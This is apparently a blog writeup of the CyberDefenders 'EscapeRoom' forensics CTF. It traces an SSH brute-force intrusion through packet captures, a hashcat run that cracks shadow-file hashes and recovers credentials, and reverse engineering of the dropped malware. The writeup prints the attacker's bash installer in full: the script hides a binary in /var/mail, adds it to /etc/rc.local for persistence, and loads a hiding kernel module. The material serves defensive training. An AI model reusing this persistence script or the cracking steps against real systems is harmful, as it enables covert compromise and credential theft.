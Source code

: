 ```yaml
---
title: CyberDefenders Writeup EscapeRoom
date: 2022-09-07 16:28:39
tags:
cover: https://cyberdefenders.org/media/terraform/EscapeRoom/escaperoom_fcW8Hvp.png
categories:
- [CyberDefenders]
---
```


This CTF challenge is made by The Honeynet Project organization. This challenge is a combination of several entry to intermediate-level tasks of increasing difficulty focusing on authentication, information hiding, and cryptography.

# Challenge Information 


+++info Description

You belong to a company specializing in hosting web applications through KVM-based Virtual Machines. Over the weekend, one VM went down, and the site administrators fear this might be the result of malicious activity. They extracted a few logs from the environment in hopes that you might be able to determine what happened.

+++

Challenge Link & Author 

{% links %}
- site: Challenge Link 
  url: https://cyberdefenders.org/blueteam-ctf-challenges/18
  desc: CyberDefenders - EscapeRoom 
  image: https://cyberdefenders.org/static/img/cyberdefenders-logo-white.png
  color: "#2296fd"
- site: Author - The Honeynet Project
  desc: The Honeynet Project Twitter Profile
  url: https://twitter.com/ProjectHoneynet
  image: https://pbs.twimg.com/profile_images/582417177254334464/BNceiZYA_400x400.png
  color: "#fcc11c"

{% endlinks %}

# Walkthrough

We start analyzing the pcap file, i open it with Brim Security and checking the alerts!! Oh god! A lot of ssh flows! mmm I guess the attacker try to gain access through the ssh service, he did a bruteforce attack ! 
![](https://imgur.com/cXk82fL.png)

> 1- What service did the attacker use to gain access to the system?

The attacker use ssh protocol to gain access to the system ! 

:::success
Answer: ssh
:::

> 2- What attack type was used to gain access to the system?(one word)

We found a lot of ssh packets! I am sure this is a bruteforce attack 

:::success
Answer: bruteforce
:::


> 3- What was the tool the attacker possibly used to perform this attack?

One of the most famous tools that can do this type of attack is hydra
Hydra is an amazing tool for testing the strength of your SSH security. It is capable of running through massive lists of usernames, passwords, and targets to test if you or a user is using a potentially vulnerable password.

:::success
Answer: Hydra
:::

> 4- How many failed attempts were there?

Let's inspect the alert events in Brim Security and apply the count() by feature in the `alert.signature`. We found 53 `NetSSH Hardcoded in Metasploit`. We decrease by 1 the success one!
![](https://imgur.com/DpgkZjt.png)

:::success
Answer: 52
:::

We have the hashes of the passwords! We know that the hashes are SHA-512(UNIX). The black cat (oh means hashcat) will help us cracking these hashes!
ٍ![](https://imgur.com/DN0qNUF.png)

```bash command line prompt
hashcat -a 0 -m 1800 shadow.log rockyou.txt

Session..........: hashcat
Status...........: Running
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: crack.txt
Time.Started.....: Wed Sep  7 23:58:23 2022 (43 mins, 15 secs)
Time.Estimated...: Fri Sep  9 04:15:48 2022 (1 day, 3 hours)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/mnt/c/Users/Mohamed Rafraf/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.1.........:      986 H/s (5.30ms) @ Accel:32 Loops:1024 Thr:1 Vec:4
Recovered........: 3/10 (30.00%) Digests, 3/10 (30.00%) Salts
Progress.........: 3579360/143443840 (2.50%)
Rejected.........: 0/3579360 (0.00%)
Restore.Point....: 357920/14344384 (2.50%)
Restore.Sub.1...: Salt:5 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.1....: donjoe -> dominique12

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>

```


> 5- What credentials (username:password) were used to gain access? Refer to shadow.log and sudoers.log.

Just wait for hashcat man!

:::success
manager:forgot
:::

> 6- What other credentials (username:password) could have been used to gain access also have SUDO privileges? Refer to shadow.log and sudoers.log.

Hashcat will save you for sure ! 

:::success
sean:spectre
:::

> 7- What is the tool used to download malicious files on the system?

Let's check the `user-agent` in brim security. you can do it with wireshark too!
![](https://imgur.com/P9haLBY.png)

:::success
Answer: wget
:::

> 8- How many files the attacker download to perform malware installation?

Checking the non-media files in brim security will help us to know about the files

![](https://imgur.com/P6St7uU.png)

:::success
Answer: 3
:::

> 9- What is the main malware MD5 hash?

The malware is an executable file for sure! let's check it 

![](https://imgur.com/VN12PmD.png)

Open the details about it and you'll get the md5sum ! 

![](https://imgur.com/YgnR9gz.png)

:::success
Answer: 772b620736b760c1d736b1e6ba2f885b
:::

We found this bash script that rename the malware mail and hide it in /var/mail/ directory and make it executable at the startup!

```bash command line prompt 
#!/bin/bash

mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

> 10- What file has the script modified so the malware will start upon reboot?

The script /etc/rc.local is for use by the system administrator. It is traditionally executed after all the normal system services are started

:::success
Answer: /etc/rc.local
:::


> 11- Where did the malware keep local files?
:::success
 /var/mail/
:::

> 12- What is missing from ps.log?

In the ps.log we don't find the process related to the malware (the mail executable)

:::success
 /var/mail/mail
:::

> 13- What is the main file that used to remove this information from ps.log?

There is another binary that moved and renamed as `sysmod.ko`

:::success
Answer: sysmod.ko
:::

> 14- Inside the Main function, what is the function that causes requests to those servers?

After unpacking the malware. I opened the binary with IDA Pro to decompile it. Check the main function and we found this ! 

![](https://imgur.com/79houmJ.png)
:::success
Answer: requestFile
:::

> 15- One of the IP's the malware contacted starts with 17. Provide the full IP.

requestFile function use address array as parameters. let's check it ! we found all the IP address. COOL ! 

![](https://imgur.com/4NLcX9k.png)

:::success
Answer: 174.129.57.253
:::

> 16- How many files the malware requested from external servers?

This is easy man ! just check the other downloaded files ! 

![](https://imgur.com/hjMszwa.png)

:::success
Answer: 9
:::

> 17- What are the commands that the malware was receiving from attacker servers? Format: comma-separated in alphabetical order

After spending time on thinking and searching. We get the idea ! 
The malware will get message form attacker servers! So let's check some functions call that related to something like messaging ! You'll find these functions in main !

![](https://imgur.com/V4JQttO.png)

The function check if the parameter has these 2 values ! I want to check it 

![](https://imgur.com/KSxTPRa.png)

After using python to convert the numbers to text using long_to_bytes function i found that 2 values are instruction in the assembly , Bingo we get it ! 

![](https://imgur.com/Hz6LsfB.png)

:::success
Answer: nop,run
:::